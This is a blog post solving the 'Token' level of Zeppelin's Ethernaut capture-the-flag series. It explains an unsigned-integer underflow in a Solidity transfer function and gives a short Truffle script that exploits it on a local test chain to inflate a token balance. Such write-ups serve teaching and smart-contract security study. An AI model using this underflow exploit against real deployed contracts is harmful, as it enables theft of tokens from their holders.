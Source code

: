 Title: Solving Zeppelin's Ethernaut CTF - Token
Date: 2018-06-10 22:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-token
Summary: Sixth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Token, we hack a basic token contract and manage our way to earn a huge amount of ethers.

## Introduction
The [Token contract](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"} simulates a basic token built on the Ethereum blockchain. It is not a full [ERC20](https://theethereum.wiki/w/index.php/ERC20_Token_Standard), but hey, you gotta start somewhere. Our main goal is to 'steal' as many tokens as we can from the contract, so let's dive right into it.

## The Token contract
The contract is deployed with some initial supply of tokens, as you can see in its constructor. That initial supply is both set as the total supply of tokens and saved as the balance of the contract's deployer.
~~~solidity
function Token(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
}
~~~

The function `balanceOf` lets any caller see how many token a certain address has.
~~~solidity
function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
}
~~~

Finally, the `transfer` function is where the core business logic of the contract lives, and where we're gonna aim our weapons at:
~~~solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
~~~

It basically allows any caller to 'send' (i.e. change the balances in the contract's storage) a certain amount (`_value`) of tokens from his/her address to the one passed as an argument (`_to`).

While the first line *tries* to ensure the caller has enough tokens to make the transaction, lines 2 and 3 actually implement the swap between the source and destination addresses.

Focus on line 1 for now: `require(balances[msg.sender] - _value >= 0);`.

We know that `balances[msg.sender]` and `_value` are both `uint` variables, right ? Well, then you're witnessing a real Solidity underflow, which results from unsafely extracting an `uint` from another.Let me put it straight. The difference between two `uint`, is another `uint`, meaning that the difference will always be equal or greater than zero! Thus, the condition `balances[msg.sender] - _value >= 0` will always evaluate to true.

Following that line of thought, the second line of the function is where our balance is decreased. However, we can underflow that as well!. According to the challenge text, our account starts with 20 tokens. What if we tried transferred 21 tokens ?. The resulting operation would look like:

~~~solidity
balances[msg.sender] = 20 - 21;
~~~

Since a `uint` cannot take the value -1, instead the variable underflows and the result of the operation, stored as the caller's balance, is 2^256 - 1.

Having analyzed the contract's vulnerability, include its code in `contracts/Token.sol` and deploy it to the local blockchain by including the following snippet in `migrations/2_deploy_contracts.js`.

~~~javascript
let Token = artifacts.require('./Token.sol')
const TOKEN_INITIAL_SUPPLY = 20
module.exports = deployer => {
    deployer.deploy(Token, TOKEN_INITIAL_SUPPLY)
}
~~~

Then run `truffle migrate`.

## The exploit
In this case, the vulnerability is easy to exploit. The exploit consists of just calling the `transfer` function with a value greater than 20.
~~~javascript
const TokenContract = artifacts.require('Token')
const assert = require('assert')

async function execute(callback) {

    let contract = await TokenContract.deployed()

    let balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance, 20)
    console.log(`Initial balance: ${balance}`)

    await contract.transfer(web3.eth.accounts[1], 21)

    balance = await contract.balanceOf(web3.eth.accounts[0])
    assert.equal(balance > 20, true)
    console.log(`Final balance: ${balance} tokens`)

}

module.exports = execute
~~~

That's it. After running `truffle exec exploits/token.exploit.js`, you should see that the balance of the account if far greater than 20 tokens.

You can also [find the exploit code at my Github repo](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/token.exploit.js). Although you might find some differences between the code in the repository and the one included in this post, the exploits work exactly the same. I made some changes to the exploit written here to make it simpler and clearer.

Thanks for reading! In the [next part](https://hackingmood.com/solving-zeppelin-ethernaut-ctf-delegation) of these series, we will tackle the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:rel="noopener"} and study the dangers of using a low-level call such as `delegatecall` in Solidity.
